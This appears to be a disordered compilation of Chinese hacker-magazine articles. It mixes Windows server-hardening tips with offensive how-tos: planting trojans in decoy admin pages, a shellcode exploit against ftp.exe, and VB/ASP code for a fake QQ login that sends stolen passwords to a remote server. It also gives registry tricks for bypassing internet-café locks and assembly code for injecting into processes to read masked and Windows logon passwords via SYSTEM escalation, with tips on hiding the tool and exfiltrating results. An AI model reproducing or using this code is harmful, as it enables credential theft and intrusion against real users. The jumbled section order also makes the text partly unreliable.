Shell.Application 也可以调用系统内核运行 DOS 基本命令。可以通过修改注册表，将此组件改名，来防止此类木马的危害。`HKEY_CLASSES_ROOT\Shell.Application\` 及 `HKEY_CLASSES_ROOT\Shell.Application.1\` 改名为其它名字。将 `HKEY_CLASSES_ROOT\Shell.Application\CLSID\` 项目的值和 `HKEY_CLASSES_ROOT\Shell.Application.1\CLSID\` 项目的值更改或删除。同时，禁止 Guest 用户使用 shell32.dll 来防止调用此组件，使用命令：`cacls C:\WINNT\system32\shell32.dll /e /d guests`。

### 4. FileSystemObject 组件

FileSystemObject 可以对文件进行常规操作。可以通过修改注册表，将此组件改名，来防止此类木马的危害。对应注册表项为 `HKEY_CLASSES_ROOT\Scripting.FileSystemObject\`，可以禁止 guests 用户使用或直接将其删除。考虑到很多上传都会使用到这个组件，为了方便，我不建议更改或删除。

### 5. 禁止 telnet 登录

在 `C:\WINNT\system32` 目录下有个 login.cmd 文件，将其用记事本打开，在文件末尾另起一行，加入 `exit` 保存。这样用户在登录 telnet 时，便会立即自动退出。  
注：以上修改注册表操作均需要重新启动 WEB 服务后才会生效。

## 九、养成查看事件、日志的习惯

对网络管理员来说，养成良好的查看事件和日志的习惯，可以及时了解服务器的健康状况。这里推荐使用一款网站日志分析软件——逆火 Web 日志分析器。

## 十、建立安全动态，及时更新漏洞补丁

更新漏洞补丁对于一个网络管理员来说是非常重要的。更新补丁，可以进一步保证系统的安全。


图11

## 六、端口设置

端口就是“门”，这个比喻非常形象。如果我们服务器的所有端口都开放的话，那就意味着黑客有好多门可以进行入侵。所以我个人认为，关闭未使用的端口是一件重要的事情。在控制面板 -> 网络和拨号连接 -> 本地连接 -> 属性 -> Internet 协议（TCP/IP）属性，点击“高级”，进入“高级 TCP/IP 设置”，选择“选项”，在可选的设置中选择“TCP/IP 筛选”，启用 TCP/IP 筛选。添加需要的端口，如 21、80 等，关闭其余所有未使用的端口，如图11。

## 七、关闭文件共享

系统默认是启用了文件共享功能的，我们应予以取消。在控制面板 -> 网络和拨号连接 -> 本地连接 -> 属性，在“常规”选项中，取消“Microsoft 网络文件和打印共享”，如图12。  
开启的服务越少，则系统相对越安全，这是一项重要原则，非必要服务应该予以关闭。系统服务可以在控制面板 -> 管理工具 -> 服务中进行设定，如图12。


图12

## 八、关闭非必要服务

类似 telnet 服务、远程注册表操作等服务应予以禁用，同时尽可能安装最少的软件。这可以避免一些由软件漏洞带来的安全问题。有些网管在服务器上安装 QQ，利用服务端挂 QQ，这种做法是极度错误的。

可能有些虚拟主机还会安装 SQL Server、MySQL 等，这些对应也有很多需要注意的地方。由于篇幅原因，这里就先提这些了。当然可能对于一个虚拟主机安全来说这些还是不够的。对于本文如果有什么不清楚的地方，或者可以补充的地方，欢迎到 X 的论坛上来交流。

# 安全爱特克

岁月十一花之骄子

随着注入攻击的成熟，加之管理员的安全意识慢慢加强，互联网上的攻击事例渐渐由以前的溢出攻击转向了从网站的源程序下手。既然从网站下手，今天我们就说一说我自己总结的网站“变态”配置方法。

### 一、从网站的管理入口开始防止

现在的 SQL 注入，大多数菜鸟都是先使用工具猜解出管理员用户名和密码，然后进入后台，并通过后台的备份和修改上传的方法进行上传 webshell。我发现很多网站都把管理入口的文件名改复杂了，这样可以躲过菜鸟们的查找，但对于老手，却依然可以从搜索中或其他方法找到。所以我们除了使用复杂的名称外，是不是还可以多加点呢？首先我们在网站目录中加入 10-20 个常用的管理员入口页面，最好是注入工具中常扫到的那些。当然我们加入这些页面不是为了让他们登录，而是要让他们知难而退。加入网页后，我们自己修改一下网页的源码，最好的方法就是在里面加上个免杀的木马，这样你可能无意间得到 N 多的肉鸡哟。

### 二、数据库的防护

扫描数据库是常用的一种攻击手法，下面给出一点数据库的安全建议。网上现在对数据库防下载的最好方法可以说就是在数据库中加入如：`<% hhua2llei %>` 这一类的防下载语句。但我认为只是防下载那就没意思了，与其只是防下载不如改造一番。当然以下方法我认为也可以用在防下载中，不过感觉不如上面的方法。

首先我们把真正的数据库改为一个别人猜不到的名字，记着要加入防下载语句。同时，再把其他目录里面加入一个假的数据库，当然数据库的文件名是可以被猜到的，后缀名是 ASP。我们把数据库名改为如：`/data/%2Fhhua.asp`，看到前面的“%2F”了吧，这是 URL 编码，转为字符就变为“/”。当对方下载数据库时，IE 自动把“%2F”转为“/”，而 IE 在处理双“//”时会认为是一个“/”，那么：`http://www.syue.com/data/%2Fhhua.asp` 就变成了 `http://www.syue.com/data//hhua.asp`，而我们的目录里根本就没有 hhua.asp，那自然也就是无法下载了。后来又出现了新的变种，图里的 URL 可存在，但下载会出现异常（见图1、图2）。

### 三、对木马的防护

上面介绍的是小黑们还没进入网站时的防护工作。如果对方通过 SQL 数据库已经写入网页木马了呢？如 DB 权限直接获得 webshell。接下来我们就说一下如何防止网页木马的方法。

### 1. 防 FSO 类的木马

我们知道，MS 很多东西都喜欢放在注册表里，网页调用的 FSO 对象也不例外。放在注册表里了，我们只要查找注册表键值 `HKEY_CLASSES_ROOT\Scripting.filesystemobject`，把后面的 filesystemobject 值改为你喜欢的名字，然后当网站用户调用 FSO 组件时，我们只要告诉它新的值怎么调用就可以了。要是对方查到了网站文件中的 FSO 值怎么办？那么我们用下面的方法：建议不要使用，因为我们以后想使用 FSO，也就用不了了。

```bash
regsvr32 /u c:\windows\system32\scrrun.dll
```

### 2. 对免 FSO 类木马的防范方法

木马少了 FSO 组件的支持，功能当然也就大打折扣了，但大打折扣却并不代表不起作用。我们在这里只介绍一种防范方法。免 FSO 木马一般是通过 shell.application 建立 shell 对象，我们只要在注册表中查寻键值 shell.application 和 wscript.shell，删除就可以了。

而对于像 php、cgi 之类的网页木马，它们的权限都大同小异，都是调用 `c:\windows\system32` 下的 `cmd.exe` 进行执行命令的。所以我们只要把 `c:\windows\system32` 下的如：`cmd.exe`、`net.exe`、`telnet.exe`、`ftp.exe`、`tftp.exe`、`cacls.exe`、`mshta.exe`、`mountvol.exe`、`format.com` 等设置相应的高级别权限，这样对方就无法使用网页木马的权限进行访问了。

另外，你还可以在 SYSTEM32 下建一个文件夹，如：hhua，把上面的程序全部复制到里面去，然后把系统下的全删掉即可。通过上面的设置还不够时，还可以把站点目录设为虚拟主机外目录，并在被入侵后快速清除受影响目录，保留其他目录为只读。


# 安全第一

电脑好长时间没有清理了，真乱，算了，还是重装吧！装好后又是一个下午的安全设置，唉，都给“hacker”吓怕了，看看我如何设置吧……（小编注：建议大家做好系统备份，放心去玩！）


### 一、删除共享

#### 1. 命令法

我们都知道 Windows 2000/XP 系统存在默认共享，这些默认共享是绝对的安全隐患，所以我们要删掉它们。首先，在 CMD 下输入 `net share` 查看开放的共享资源，再用 `net share *$ /del`（* 是开放共享的文件夹）命令来删除共享。

但是，这种方法重启后共享又会重新开放，所以我们可以写个 bat 文件，再放到启动项。打开记事本，输入：

```bat
@echo off
net share C$ /del
net share D$ /del
net share ipc$ /del
net share admin$ /del
```

保存为 `delshare.bat`，拉到“开始”菜单中的“启动”就行了。

#### 2. 注册表法

依次打开“开始”→“运行”→输入“regedit”，找到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters`，再双击打开“AutoShareServer”，把键值改为 0；这样就删了硬盘分区的共享。往下可看到“AutoShareWks”也改为 0，则可关闭 admin$ 共享；找到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`，键值改为 1，可关闭 ipc$（以上键值如果没有，可自己新建再设置）。用注册表法开机就不用看到黑黑的命令提示符。为了大家方便，我已写了 delshare.bat 和 delshare.reg 放在压缩包中。

### 二、系统服务

Windows 的服务也是个恐怖的东西，许多入侵都与其有关，如信使服务、远程终端服务、TELNET 等。还有些服务我们平时使用不到，留着也是隐患，所以还是关掉的好。打开“我的电脑”→“控制面板”→“管理工具”→“服务”，双击要关闭的服务，打开其属性，在启动类型项中选择“已禁用”即可，如图1。我在网上找了一份 Windows XP 无用服务的列表，实测效果极佳，也放在压缩包里了，大家可以根据自己的需要进行禁用。记住，开放服务的多少与系统的安全成反比。


### 三、端口

默认情况下，Windows 为我们开放许多端口，这些端口是“黑客”们入侵和病毒攻击的途径。所以我们有必要来关闭这些危险端口。我们可以用“本地安全策略”来建立筛选器禁止这些端口。

首先，打开“控制面板”→“管理工具”→“本地安全策略”，选中最下边的“IP 安全策略，在本地计算机”的右边空白处单击右键，选择“创建 IP 安全策略”，然后点击下一步，在出现“激活默认响应规则”时，去掉勾，点击完成，就创建完一个 IP 安全策略。

接下来，右键单击新建的 IP 安全策略，选择“属性”，去掉“使用添加向导”的勾，点击“添加”再连续添加两次，直到出现如图2所示的界面。


在“寻址”栏中源地址选“任何 IP 地址”，目标地址选“我的 IP 地址”；在“协议”栏中选择 TCP 协议，然后在“到此端口”下的文本框中输入“135”，点击确定，如图3。筛选器中就加入了新的策略了，再依样画葫芦加入 TCP 137/138/139/445 和 UDP 135/137/138/139/445。

添加好后按确定回到“新规则属性”，选中我们新建的筛选器前面的复选框，即“激活”了。接着，点击“筛选器操作”，依旧把“使用添加向导”左边的勾去掉，点添加，选中“阻止”，然后确定。再选中“新筛选器操作”复选框，点击确定。最后在“新 IP 安全策略属性”对话框的“新的 IP 筛选器列表”打勾，按确定回到“本地安全策略”，右击新添加的 IP 安全策略，然后选择“指派”就 OK 了。

真够麻烦。嫌麻烦的可以用天网的自定义 IP 规则，这里以 TCP135 端口为例，比较简单，如图4。下接375页。


# 黑客编程

### 再谈编写缓冲区溢出程序

缓冲区溢出程序的教程已被牛人们写得差不多了，而我是个喜欢凑热闹的人，所以我决定再写写这方面的文章，也算是给像我一样的广大菜鸟同仁们一个学习交流的过程吧！我举的这个例子是我自己独立发现的，也许早有人发现了，我只是想突出在构造 Shellcode 时一些巧妙的思路……

对于 Win2000 Pro 的用户，在 FTP 使用匿名登录时，当输入过长的用户名登录后，再使用系统命令，如：pass、ls、ftp（版本：Microsoft ftp v5.0.2134.1 及 v5.0.2134.1 以下版本）会产生缓冲区溢出。注意这里是 ftp.exe 程序溢出，不是 FTP 服务程序溢出，如图1。


图1

很明显这是一个简单的栈溢出漏洞，于是我们开始写第一个溢出利用程序……好，现在拿它进行一次溢出，如图2。


图2

看到了吗？出错在 `0x20535341`，其实是由于我们的命令 `PASS \r\n` 覆盖了程序的返回地址。看来在这里我们需要使用一个控制程序跳转的命令地址，一般来说我们要找 `jmp esp/jmp ebx/call esp/call ebx` 指令地址，如图3。


图3

我们看到 ESP 指向的地方并不是我们希望的地方，因为它没有指向我们的 shellcode，这里是一串 a，但是 ESP+2 就指向我们希望的地方。可是 `jmp esp+2` 这样的指令确实不好找，但还是有办法的。那么这时候我们怎么办呢？让我们再仔细看看 0012FF80 周围有什么，如图4。


图4

这里 0012F1E1 指向的地方刚好是我们前面的 USER 变量后跟的大片的 “g”，让这个地址覆盖返回地址，就会让程序执行到我们想要的地方……然后再编译，怀着万分激动的心情执行……如图5。


图5

我们的 DOS 窗口呢？看来我们把 FTP 想简单了！这里有许多地址里保存了 FTP 程序要使用的地址，我们的 CODE 一下全给覆盖了，程序当然失败了……

这里就有一个编写 Shellcode 的巧妙思路：当遇到溢出点存放 Shellcode 的位置很小，或者有大量数据要被覆盖时，我们可以编写一个简短的 Shellcode，用它来把程序导向我们真正的 Shellcode。

```asm
mov ebx, esi
mov eax, 0x90909067
go:
dec ebx
cmp dword ptr [ebx], eax
jne go
call ebx
```

翻译成 16 进制代码：`\x8b\xde\xb8\x67\x90\x90\x90\x4b ...`

# 黑客编程

……

现在写出我们的第二个程序，执行如图6。


图6

看到了吗？程序成功地执行到我们真正的 CODE 上了，再把我们的 DOS SHELLCODE 放上去试试。倒，还是不成功，如图7。


图7

不能写？唉！这就是说我们不小心在 CODE 中用了一个不可写的变量，调试发现是 EBP 这个家伙导致的……在调试程序时，当发现有地址全是 CC 时，如图8。

这一段就是可写的地址，我们就可以利用。好，我们随便找个地方把它赋给 EBP 试试，可以了，加上我们的 SHELLCODE 吧！

再试试……唉，又让大家失望了，还是没成功！来，静下心来，查看出错的地方，发现我们的 CODE 中有个 0x00。使用或者编写 SHELLCODE 时千万避免出现 0x00 这样的字符，因为它会截断程序。这里的 00 不是故意加上去的，是 FTP 程序自己赋予的。

那我们如何躲避呢？再给你一个思路——跳跃执行。前面我们使用引路者来找我们的 CODE，那是在跳跃大堆地址时使用的。在这里，我们只要躲避一个带几个字符，所以使用简单的指针加减法就可以了。

```asm
mov eax,ebx
add eax,1111111h
sub eax,11111110h
call eax
```

这样就可以了，使用这样的方法我们写下第四个程序，执行如图9所示。


图8


图9

各位读者，终于成功了！！这里我讲了几个编写溢出程序时的巧妙思路和注意事项，希望对读者有所收获。

## 在学校机房掀起一场盗QQ的风暴

### 一、前言

最近我突然对 QQ 号感兴趣了……我是个菜鸟小黑客，哈哈。6位 QQ 号现在真是宝贝啊……

- 地点：学校机房  
- 理由：QQ 来源广泛，操作方便。

### 二、资料收集

网上流行的盗 QQ 软件主要有阿拉 QQ 大盗和翘翘 QQ 盗……功能很强，操作简便，并且支持大多数 QQ 版本。由于招风，容易被杀软查杀；而且通过监控和收发邮件方式获取 QQ 信息，启动和隐蔽性也受限制。

近日我发现另外一款盗 QQ 的软件——“盗 QQ 的老鼠”，伪冒成 QQ 界面，提示系统内部错误并记录输入的 QQ 号和密码。思路还可以，但界面做得太粗糙，容易被识破。

### 三、编程思路

有缺陷才有进步，我们自己编一个。思路是先做一个与正版 QQ 几乎一样的登录界面，采用 ASP 网页方式提交数据。用户输入后写入网站数据库，再通过网页直接查看 QQ 信息，不需要额外打开记录文件，更方便。


图1

### 四、边走边学

有了思路就可以动工了，还是用我较熟悉的 VB 编写这个程序吧！

运行 VB 后，新建一个工程，就命名为 QQ.vbp 吧。添加一个窗体，界面模拟成真实 QQ 的界面……接着对登录按钮进行编程，双击进入代码窗口，代码及简单说明如下。

```vb
Private Sub Command1_Click()
On Error Resume Next
QQNum = ComboNum.Text
If QQNum = "" Then MsgBox "请输入QQ号码"
ResultTXT = CStr(QQNum + "|" + QQPwd)
URL2 = "http://www.xxx.com/xx.asp?QQNum=" + QQNum + "&QQPwd=" + QQPwd
ret = MsgBox("...", vbYesNo + vbCritical, "错误")
If ret = vbYes Then
  r = Shell(APPPath & "\QQtrue.exe", vbNormalFocus)
  ME.Visible = False
  Call WTWeb(CStr(URL2))
Else
  Me.Visible = False
  Call WTWeb(CStr(URL2))
End If
End Sub
```

接着在窗体中应加入一个 WebBrowser 控件，Visible 属性设为 False，编写函数 WTWeb()。

```vb
Function WTWeb(URL2 As String)
  WebBrowser1.Navigate (URL2)
End Function
```

这里还需要生成 URL2，这样 WebBrowser 浏览时相当于向远程 ASP 后台提交了数据。URL2 的形式如：http://www.xxx.com/qqshow.asp?QQNum=xxx&QQPwd=xxx。下面需要编写相应后台程序 qqshow.asp。

```asp
<%
dim conn,strconn
strconn="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("QQ.mdb")
set conn=server.createobject("adodb.connection")
conn.open strconn
%>
```

```asp
<%
if request("QQNum")<>"" and request("QQPwd")<>"" then
  sql="select * from QQinfo"
  set rs=server.createobject("adodb.recordset")
  rs.open sql,conn,1,3
  rs.addnew
  rs("QQNum")=request("QQNum")
  rs("QQPwd")=request("QQPwd")
  rs("Time")=Now()
  rs.update
  rs.close
  set rs=nothing
  response.redirect "qqshow.asp"
end if
%>
```

其它代码较简单，至此盗 QQ 软件的基本功能完成……（正文继续，包含“写个总结”等小节与经验说明）。

# 网吧开注册表 Follow Me

前几天去网吧上网，网管居然是个 MM……今天小熊我要与众位分享网吧命令行开启注册表的方法……新建文档写下 regedit 并保存为 reg.bat 等步骤。

```reg
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

保存为 .reg 文件运行后，再清除 Pubwin 相关启动项：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run、RunService 及 Hintsoft\Pubwin 等键值。

# 采用远程线程查看星号密码

一块三毛钱

查看星号密码很简单，网上也有很多类似的软件可以使用。不过要想找一个用得顺手的还真不容易，要不就是 XP 下面用不了，要不就是有些经过处理的密码框的密码看不到。而且，光是一个查看星号密码他们就能够做到 100 多 KB 的大小，有一个甚至达到 1MB，这么大的体积放在大家的工具箱里面实在是占地方。

关于如何在 2000 以后的系统下查看星号密码，有很多种办法。比如，通过鼠标钩子可以实现这个功能，通过键盘钩子也行，还可以通过发送消息改变密码框的风格显示密码等等。本文将介绍通过远程线程的方法来查看星号密码，并且增强了功能，可以看 Group Box 里面的密码框中的密码，可以看某些经过处理的密码框的密码，甚至可以看 Windows 登录插件的密码哦！而且压缩后的大小只有 3.31KB，可谓体积小巧、功能强大，方便大家收藏备用。

本文采用了 Win32 汇编语言来实现代码，在编写这样的小工具上面，汇编语言的繁琐一点也感觉不到，反而汇编语言带来的小巧、高速、灵活等特点可以充分地体现出来。特别是在编写远程线程的代码时，使用汇编可以灵活地控制代码，很是方便。下面就开始讲解代码和原理。

### 一、远程线程

在 Windows 98 下面如果想查看星号密码，可以直接给密码框发送一个 WM_GETTEXT 消息就能够取得密码框中的密码。这种方法很简单，但是在 2000 以后的系统中只有自己的进程发送这个消息才能够取得密码框中的文本，别的进程不行。所以就需要想办法把代码插入到目标进程中运行，比如添加鼠标钩子的办法就是提供一个动态库实现一个鼠标钩子，当鼠标移过密码框的时候动态库会被加载到目标进程运行，从而取得密码。

远程线程现在很流行，没有哪个木马会不用它，隐蔽、难查杀是它的优点。究其原理就是把代码插入到别的进程运行。利用这个办法就可以把查看星号密码的代码插入到目标进程运行，从而取得密码。将这个过程封装成一个 _GetWindowTextRemote 函数，里面包括了插入远程线程、取得密码等。调用时很简单，invoke _GetWindowTextRemote，esi，addr buf1，第一个参数是密码框句柄，第二个参数接收返回的密码。下面来看 _GetWindowTextRemote 函数的实现：

```asm
_GetWindowTextRemote proc hWnd:HWND, lpText:DWORD

.data?
  g_hProcess      dd ?
  g_hThread       dd ?
  g_lpRemoteCode  dd ?
  g_dwProcessID   dd ?

.code
  pushad
  ...
```

```asm
invoke GetModuleHandle, CTXT("Kernel32.dll")
mov ebx, eax
invoke GetProcAddress, ebx, CTXT("GetModuleHandleA")
mov g_lpGetModuleHandleA, eax
invoke GetProcAddress, ebx, CTXT("GetProcAddress")
mov g_lpGetProcAddress, eax
...
invoke OpenProcess, PROCESS_CREATE_THREAD+PROCESS_VM_OPERATION+PROCESS_VM_READ+PROCESS_VM_WRITE, FALSE, g_dwProcessID
...
invoke VirtualAllocEx, g_hProcess, NULL, Remote_code_length, MEM_COMMIT, PAGE_EXECUTE_READWRITE
...
invoke WriteProcessMemory, g_hProcess, g_lpRemoteCode, offset Remote_code_start, Remote_code_length, NULL
...
invoke CreateRemoteThread, g_hProcess, NULL, 0, eax, 0, 0, NULL
...
invoke WaitForSingleObject, eax, INFINITE
...
invoke ReadProcessMemory, g_hProcess, ...
...
invoke CloseHandle, g_hThread
invoke VirtualFreeEx, g_hProcess, g_lpRemoteCode, 0, MEM_RELEASE
invoke CloseHandle, g_hProcess
...
_GetWindowTextRemote endp
```

_GetWindowTextRemote 函数首先锁定目标进程，然后打开目标进程，在目标进程空间里面分配一定的空间，接着把远程线程的代码写入这个空间，再创建远程线程运行刚才写入的代码取得密码。最后，等待远程线程结束，把取得的密码读取出来返回。这就是整个过程，如果代码细节看不懂或者函数的用法不清楚，建议参考 Iczelion 的汇编教程和 Win32 API 参考手册。

下面再看远程线程的代码：

```asm
code:
Remote.code.start:
    equ this byte

g_lpGetModuleHandleA    dd ?
g_lpGetProcAddress      dd ?
...
g_szUser32              db "user32.dll",0
g_szGetWindowTextA      db "GetWindowTextA",0
g_szGetParent           db "GetParent",0
g_szCreateWindowExA     db "CreateWindowExA",0
g_szGetWindowLongA      db "GetWindowLongA",0
g_szSetWindowLongA      db "SetWindowLongA",0
g_szDestroyWindow       db "DestroyWindow",0
...
RemoteThread proc
    LOCAL hModule
    int 3
    pushad
    call @F
@@:
    pop ebx
    sub ebx, offset @B
    ...
    invoke [ebx+g_lpGetModuleHandleA], eax
    ...
    invoke [ebx+g_lpGetProcAddress], hModule, esi
    ...
    invoke [ebx+g_lpGetWindowTextA], [ebx+g_hWnd], eax, 127
    popad
```

```asm
RemoteThread endp

Remote.code.end       equ this byte
Remote.code.length    equ offset Remote.code.end - offset Remote.code.start
```

从 Remote.code.start 开始到 Remote.code.end 就是所有要被写入目标进程的代码和数据，Remote.code.length 表示所有代码和数据的大小。RemoteThread 过程就是远程线程开始执行的地方，首先确定代码的偏移位置，因为代码被写入目标进程时不能够确定到底被写到了哪个地方，所以存取变量的时候不能够直接通过一个固定的地址来存取，需要先确定代码的偏移位置，再通过变量间相对的位置关系确定变量的地址，从而可以存取变量。确定偏移的方法采用了最经典的代码，几乎所有的病毒代码开头都会用到。

```asm
call @F
@@:
pop ebx
sub ebx, offset @B
```

因为 call 指令运行时会把它后面一条指令的地址压入堆栈，在这里也就是 pop ebx 指令的地址。接着执行 pop ebx 指令就会把刚才压入堆栈中的地址取出来，那么 ebx 中就保存着 pop ebx 指令的地址。

接下来就是调用 GetModuleHandle 函数和 GetProcAddress 函数来取得代码中所要用到的所有 API 函数的地址，然后调用 GetWindowText 函数取出密码。不过这时候密码是保存在目标进程中的，所以在 GetWindowTextRemote 函数才会有 ReadProcessMemory 的调用来把密码从目标进程中读取出来。

### 三、支持类型化处理过的密码框

为了防止密码框中的密码被非法查看，很多软件都采用了子类化的办法来判断读取密码是否合法。比如设扣一个全局变量，当自己读取密码时把变量置 1，读完密码再把它置 0，然后在子类化的过程中判断这个全局变量是否为 1，如果为 1 则表示可以读取密码，否则可以判定为非法读取，随便返回一个无用的密码。

对付这种软件，本文采用了再次子类化的办法，把密码框的窗口过程替换为标准的窗口过程，从而读出密码。

```asm
mov eax, dword ptr [ebx+g_buf]
...
; 某些使用了 Anti 技术的编辑框，可能是通过子类化的方法来判断取字符的合法性
; 现在创建一个新的编辑框，用它的窗口过程来替换原来的窗口过程，取出密码
invoke [ebx+g_lpGetModuleHandleA], 0
invoke [ebx+g_lpGetParent], [ebx+g_hWnd]
invoke [ebx+g_lpCreateWindowExA], 0, eax, ...
invoke [ebx+g_lpGetWindowLongA], eax, GWL_WNDPROC
invoke [ebx+g_lpSetWindowLongA], [ebx+g_hWnd], GWL_WNDPROC, eax
mov [ebx+g_lpEditProc], eax
```

```asm
lea eax,[ebx+offset g_buf]
invoke [ebx+g_lpGetWindowTextA],[ebx+g_hWnd],eax,127
invoke [ebx+g_lpDestroyWindow],[ebx+g_hEdit]
invoke [ebx+g_lpSetWindowLongA],[ebx+g_hWnd],GWL_WNDPROC,(ebx+g_lpEditProc)
.endif
```

上面这段代码在 _RemoteThread 过程中，如果正常情况下取不出密码，则创建一个标准的 Edit 控件，用它的窗口过程来替换原来密码框的窗口过程，从而跳过原来的子类化窗口过程检测，读出密码。

### 三、支持某些在 Group Box 里的密码

有些密码框外面往往有一个 Group 框，如果采用通常的办法直接取鼠标位置的控件句柄，取到的是 Group 控件的句柄，不是密码框的。本文通过循环判断鼠标位置的控件，找出最里层的控件密码框，从而得到密码框的句柄。

```asm
_WindowFromPoint proc dwX:DWORD,dwY:DWORD
LOCAL hWnd,hParent,hTmp
LOCAL rect:RECT
LOCAL rectTmp:RECT

pushad
invoke WindowFromPoint,dwX,dwY
mov hWnd,eax
invoke GetWindowRect,hWnd,addr rect
invoke GetParent,hWnd
mov hParent,eax

.while TRUE
  invoke GetWindow,hTmp,GW_HWNDNEXT
  .break .if !eax
  mov hTmp,eax
  invoke GetWindowRect,hTmp,addr rectTmp
  invoke PtInRect,addr rectTmp,dwX,dwY
.endw
```

```asm
mov ecx,eax
mov eax,rect.bottom
sub eax,rect.top
imul ecx

.if ebx<ecx
  m2m hWnd,hTmp
  invoke GetWindowRect,hWnd,addr rect
.endif

popad
mov eax,hWnd
ret
_WindowFromPoint endp
```

### 四、查看 Windows 登录框的密码

在使用 Windows 时，如果锁定了桌面，所有正在运行的程序都会被隐藏起来，取代的是一个类似登录的解锁界面。介绍的方法可以查看这个解锁界面中的用户密码（需要实际输入密码才会显示），若进一步修改程序进行输入监视，则可达到窃取密码的目的。


如图所示，可以看到登录密码框中的内容。文中继续说明了桌面会话、登录桌面与普通交互桌面的区别，以及为何普通权限进程难以访问登录桌面；要实现该操作通常需要先提升到 SYSTEM 权限。

```asm
_ReLaunch proc
  LOCAL hSCManager
  LOCAL hService

  invoke OpenSCManager,NULL,NULL,SC_MANAGER_CREATE_SERVICE
  .if eax!=0
    mov hSCManager,eax
```

# 黑客编程

```asm
; 如果已经有了 SeePassTemp 服务，则要先删除
invoke OpenService, hSCManager, CTXT("SeePassTemp"), DELETE
.if eax!=0
    push eax
    invoke DeleteService, eax
    call CloseServiceHandle
.endif

invoke GetModuleFileName, NULL, addr g_name, MAX_PATH
invoke CreateService, hSCManager, CTXT("SeePassTemp"), CTXT("SeePass Temp Service"), \
    SERVICE_START + SERVICE_QUERY_STATUS + DELETE, \
    SERVICE_WIN32_OWN_PROCESS + SERVICE_INTERACTIVE_PROCESS, SERVICE_DEMAND_START, \
    SERVICE_ERROR_IGNORE, \
    addr g_name, NULL, NULL, NULL, NULL, NULL
.if eax!=0
    mov hService, eax
    invoke StartService, hService, 0, NULL
    invoke DeleteService, hService
    invoke CloseServiceHandle, hService
.endif
invoke CloseServiceHandle, hSCManager
ret
_ReLaunch endp
```

```asm
; 这里通过检查命令行的方式避免程序不停地重新运行
invoke GetCL, 1, addr g_lpCmdLine ; ---- (1)
.if eax!=1
    invoke GetModuleFileName, NULL, addr g_name, MAX_PATH
    invoke lstrcat, addr g_name, CTXT(" /r")

    ; 传递一个命令行，供 (1) 处判断
    invoke GetStartupInfo, addr g_si
    invoke lstrcpy, g_si.lpDesktop, CTXT("WinSta0\\Winlogon")

    invoke CreateProcess, NULL, addr g_name, NULL, NULL, NULL, \
        NORMAL_PRIORITY_CLASS, NULL, NULL, addr g_si, addr g_pi
    .if eax
        invoke CloseHandle, g_pi.hThread
        invoke CloseHandle, g_pi.hProcess
    .endif
    jmp @F
.endif

invoke InitCommonControls
invoke DialogBoxParam, g_hInst, DLG_MAIN, NULL, addr DlgProc, NULL
@@:
invoke ExitProcess, 0
```

进程 A 运行时判断是否要求在登录桌面运行，如果是，则以服务方式重新运行程序，得到进程 B，退出当前运行的进程 A。重新运行的 B 这时候已经具有了 SYSTEM 权限，B 开始运行时判断是否具有 SYSTEM 权限，如果有，则表明这个进程是通过服务方式运行的。然后 B 再通过 CreateProcess 函数再一次运行程序得到进程 C，C 会继承 B 得到的 SYSTEM 权限。最后 B 返回退出，接着服务管理器返回，删除刚才建立的服务。在调用 CreateProcess 函数创建 C 进程时，g_si 结构里的 desktop 成员设定在登录界面，通过设置 STARTUPINFO 结构的 lpDesktop 成员中指定 WinSta0\\Winlogon 可以达到目的。Winlogon 就代表登录桌面。

_ReLaunch 过程就是通过重新运行程序，以服务的方式运行，然后程序就会自动继承服务管理器的 SYSTEM 权限。又因为服务管理器要求运行的服务立即返回，所以还需要再一次运行程序，然后结束这个以服务方式运行的程序，保留那个再一次运行的程序即可。

```asm
start:
    invoke GetModuleHandle, NULL
    mov g_hInst, eax

; 如果以命令行方式运行，命令行中指定了选项 /w，则以服务的方式重新启动程序
invoke GetCL, 1, addr g_lpCmdLine
.if eax==1
    mov eax, dword ptr [g_lpCmdLine]
    .if ah=='w' || ah=='W'
        invoke _ReLaunch
        invoke ExitProcess, 0
    .endif
.endif
```

查看程序是否运行在 SYSTEM 权限之下，如果是，说明第一次运行时命令行中指定了 /w 选项，程序以服务的方式重新运行了。这时候，我们还需要再一次运行程序；指定在 WinSta0\\Winlogon 桌面启动程序，这样可以查看 Windows 用户的密码。

```asm
mov eax, sizeof g_name
push eax
invoke GetUserName, addr g_name, esp
pop eax
invoke lstrcmp, addr g_name, CTXT("SYSTEM")
.if eax==0
    ; ...
.endif
```

## 五、后记

由于用到了远程线程的技术，所以程序不能在 Win98 下运行。（本文中涉及到的查看账号密码的编译后的程序 seepass 已经收录于光盘中）

## 六、小结

用户可以根据自己的需要，添加开机启动、隐藏选项，也可以把窗口的标题或者类名改成其它的窗口，便可以捕获到相应的内容。大家也可以像上文那样通过 IE 把密码发送出去来躲过防火墙的拦截。还有最后编译的时候要脱离 BCB 的类库。详细代码请看附加源代码，有问题请大家到 X 档案共同讨论。（本文涉及到的程序源代码 hu.rar，可执行程序 qq.exe，查找窗口句柄工具 minispy.exe，光盘已收录）

## PE文件另类加密技巧

刘奇

如何才能校验指定文件是否为一个有效 PE 文件呢？这个问题很难回答，完全取决于想要的精准程度。您可以检验 PE 文件格式里的各个数据结构，或者仅校验一些关键数据结构。大多数情况下，没有必要校验文件里的每一个数据结构，只要一些关键数据结构有效，我们就认为是有效的 PE 文件了。

```c
IMAGE_NT_HEADERS STRUCT
  Signature dd ?
  FileHeader IMAGE_FILE_HEADER <>
  OptionalHeader IMAGE_OPTIONAL_HEADER32 <>
IMAGE_NT_HEADERS ENDS
```

Signature 为 dword 类型，值为 50h, 45h, 00h, 00h，也就是 PE\0\0。本域为 PE 标记，我们可以借此识别给定文件是否为有效 PE 文件。FileHeader 该结构域包含了关于 PE 文件物理分布的信息，比如节数目、文件执行机器等。OptionalHeader 该结构域包含了关于 PE 文件逻辑分布的信息。

```c
IMAGE_DOS_SIGNATURE equ 5A4Dh
IMAGE_OS2_SIGNATURE equ 454Eh
IMAGE_OS2_SIGNATURE_LE equ 454Ch
IMAGE_VXD_SIGNATURE equ 454Ch
IMAGE_NT_SIGNATURE equ 4550h
```

